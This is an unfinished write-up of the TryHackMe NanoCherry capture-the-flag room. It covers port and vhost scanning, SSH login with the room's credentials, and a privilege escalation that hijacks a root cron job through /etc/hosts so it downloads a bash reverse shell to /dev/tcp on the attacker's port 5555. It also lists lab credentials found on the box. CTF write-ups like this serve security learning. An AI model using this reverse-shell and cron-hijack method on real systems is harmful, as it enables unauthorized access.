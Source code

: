 # Tryhackme NanoCherryCTF

## What is it ?

A writeup for [tryhackme Nano Cherry CTF](https://tryhackme.com/r/room/nanocherryctf)
This writeup is not complete as I still trying to solve the challenge

## Initial foothold

### Nmap discovery :

```bash
┌──(david㉿kali)-[~]
└─$ sudo nmap -p- -sV -sC 10.10.68.252 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-06 13:43 CEST
Nmap scan report for cherryontop.thm (10.10.68.252)
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e:e6:fd:19:23:a3:b1:40:77:1c:a4:c4:2f:e6:d3:4b (ECDSA)
|_  256 15:2b:23:73:3f:c8:8a:a3:b4:aa:1d:ae:70:d4:5f:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Cherry on Top Ice Cream Shop
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.79 seconds
```
### Directory scan with gobuster

```bash
┌──(david㉿kali)-[~]
└─$ gobuster dir -u http://10.10.68.252 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.68.252
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.68.252/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.68.252/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.68.252/js/]
/bootstrap            (Status: 301) [Size: 316] [--> http://10.10.68.252/bootstrap/]
/jquery               (Status: 301) [Size: 313] [--> http://10.10.68.252/jquery/]
/server-status        (Status: 403) [Size: 277]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

### Virtual host scan with gobuster 

```bash
┌──(david㉿kali)-[~/tryhackme_ctf]
└─$ gobuster vhost -u http://cherryontop.thm/ -w /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt --append-domain 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://cherryontop.thm/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: nano.cherryontop.thm Status: 200 [Size: 10718]
```

We found one subdomain ``nano.cherryontop.thm`` we add it to ``/etc/hosts`` :
```bash
echo '10.10.68.252 nano.cherryontop.thm' | sudo tee -a /etc/hosts
```

### Connect via ssh to the machine with the credentials provided in the challenge 

Username: notsus
Password: dontbeascriptkiddie

```bash
┌──(david㉿kali)-[~/tryhackme_ctf]
└─$ ssh notsus@10.10.68.252
```
In the home directory there's two files backdoor.mp4 and youFoundIt.txt

We cat the txt file :

```bash
$ cat youFoundIt.txt
Hey good work hacker. Glad you made it this far!

From here, we should be able to hit Bob-Boba where it hurts! Could you find a way to escalate your privileges vertically to access his account?

Keep your's eyes peeled and don't be a script kiddie!
```
So we know we have to escalte to ``Bob-Boba`` user !

I copied with scp the backdoor.mp4 file into my local computer :

```bash
┌──(david㉿kali)-[~/tryhackme/NanoCherryCTF]
└─$ scp notsus@10.10.68.252:/home/.notsus/backdoor.mp4 /home/david/tryhackme/NanoCherryCTF
```
And check the exif data with exiftool but couldn't find anything relevant.

## Privilege escalation to Bob-Boba user :

I start a simple python server to retrieve the linpeas executable :

On my local machine : 

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ python3 -m http.server                                       
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.68.252 - - [06/Jul/2024 14:30:46] "GET /linpeas.sh HTTP/1.1" 200 -
```
On the remote host :
```bash
$ wget http://10.11.92.0:8000/linpeas.sh
```
From the LinPeas output I found a interesting cron job run as bob-boba :
![LinPeas output](https://image.noelshack.com/fichiers/2024/27/6/1720271405-screenshot-from-2024-07-06-15-08-20.png)

Unfortunately we cannot acces the file :
```bash
$ ls -la /home/bob-boba/coinflip.sh    
ls: cannot access '/home/bob-boba/coinflip.sh': Permission denied
```
But we can modify /etc/hosts file 
First in our local machine we create the same structured folder as curled by the cron job :

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ mkdir -p home/bob-boba        
```
Then we add our payload (a reverse shell in bash) to our coinflip.sh file :

```bash                                                                               
┌──(david㉿kali)-[~/tryhackme/home/bob-boba]
└─$ echo 'sh -i >& /dev/tcp/YOUR_IP/5555 0>&1' > coinflip.sh
```

We start a simple python server on port 8000 at the root of our folder :

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ python3 -m http.server 8000
*Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Then we set a listener with netcat :
```bash
┌──(david㉿kali)-[~]
└─$ nc -lnvp 5555
listening on [any] 5555 ...
```

Then we modify the remote host /etc/hosts file and add the following entrance :
YOUR_IP cherryontop.tld

After a few seconds you will receive a connection on our netcat listener congrats we have escalated to bob-boba :

![Reverseshell](https://image.noelshack.com/fichiers/2024/27/6/1720280641-screenshot-from-2024-07-06-15-28-38.png)

We stabilize our reverse shell as stated in this [page](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Here we have the flag number 3 :

![Flag number 3](https://image.noelshack.com/fichiers/2024/27/6/1720272868-screenshot-from-2024-07-06-15-34-11.png)

## XSS on content.php page 
![XSS](https://image.noelshack.com/fichiers/2024/27/6/1720277908-screenshot-from-2024-07-06-16-58-01.jpg)

## Acces the admin portal 

Back on the foothold we had discovered a subdomain : nano.cherryontop.thm
On this subdomain there is a admin portal :

![admin portal](https://image.noelshack.com/fichiers/2024/27/6/1720273732-screenshot-from-2024-07-06-15-48-27.jpg)

Let's try to see if there is an SQLi. We open burpsuite and send the request to the repeater then save it.
```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ sqlmap -r request.req     
```
Result in nothing. 

After fuzzing the page I discovered that there was a users.db file at ``http://nano.cherryontop.thm/users.db``
After opening the file we get the following credentials :
![credentials](https://image.noelshack.com/fichiers/2024/27/7/1720367934-screenshot-from-2024-07-07-17-58-46.png)

puppet:master 

We login to the portal at we get the first flag :
![flag](https://image.noelshack.com/fichiers/2024/27/7/1720368103-screenshot-from-2024-07-07-18-01-38.png)

In the dashboard we discover molly-milk ssh password :
![ssh-password](https://image.noelshack.com/fichiers/2024/27/7/1720368299-screenshot-from-2024-07-07-18-04-52.png)

Credentials : 
molly-milk:ChadCherrysFutureWife


